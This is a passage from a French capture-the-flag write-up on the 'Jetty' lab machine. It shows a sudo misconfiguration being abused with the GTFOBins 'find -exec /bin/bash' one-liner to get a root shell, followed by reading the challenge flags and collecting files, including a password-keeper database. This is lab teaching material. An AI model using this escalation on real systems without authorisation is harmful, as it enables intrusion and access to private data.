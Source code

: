 D'autre part, la commande ```sudo -l``` affiche la configuration sudo pour l'utilisateur courant ; l'utilisateur ```squiddie``` est autorisé à exécuter la commande ```/usr/bin/find``` via sudo. Un petit tour sur l'excellent site [GTFOBins](https://gtfobins.github.io) nous permet successivement [d'obtenir un shell](https://gtfobins.github.io/gtfobins/python/) à l'aide de Python, puis [d'élever nos privilèges](https://gtfobins.github.io/gtfobins/find/) et passer root avec le binaire find.

```console
squiddie@jetty:~$ id
uid=1001(squiddie) gid=1001(squiddie) groups=1001(squiddie)

squiddie@jetty:~$ sudo -l
Matching Defaults entries for squiddie on jetty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User squiddie may run the following commands on jetty:
    (ALL) NOPASSWD: /usr/bin/find

squiddie@jetty:~$ sudo /usr/bin/find . -exec /bin/bash \; -quit

root@jetty:~# id
uid=0(root) gid=0(root) groups=0(root)
```

## Forensics! Analyse des fichiers stockés dans /root/Documents/

À présent, il s'agit de passer à la recherche d'éléments de preuve sur le poste de Henry. Pour commencer, les deux flags de résolution du challenge ```user.txt``` et ```proof.txt``` sont retrouvés parmi d'autres fichiers texte : un mémo pour une dénommée Mary, et un message de Henry destiné à Michael.

```console
root@jetty:~# cat /home/squiddie/Desktop/user.txt 
dd69f649f3e5159ddd10b83b56b2dda2

root@jetty:~# cat /root/Desktop/proof.txt 
136d05d01c8af5d3e3520d2c270f91f1

root@jetty:~# cat /root/Desktop/note.txt 
Say to Mary that I want to go on vacation on 2 weeks.

root@jetty:/root# cat /home/squiddie/Desktop/To_Michael.txt 
Hi Michael,
When I run the command you ask me to, an error occurr. Can you help me with this?
Regards,
Henry
```

On retrouve un grand nombre de fichiers dans le répertoire du compte ```root``` relatifs à la billetterie de l'aquarium...

```console
root@jetty:~# tar -czvf copy.tar.gz /root/Documents/
tar: Removing leading `/' from member names
/root/Documents/
/root/Documents/Ticket_Toulouse.PDF
/root/Documents/Tickets_cooked/
/root/Documents/Tickets_cooked/adult_ticket_f.PDF
/root/Documents/Tickets_cooked/child_ticket_f.PDF
/root/Documents/.docs/
/root/Documents/.docs/MoneyBalance.xlsx
/root/Documents/.docs/Password_keeper/
/root/Documents/.docs/Password_keeper/database.txt
/root/Documents/.docs/Password_keeper/usage.txt
/root/Documents/.docs/Password_keeper/password_keeper.exe
```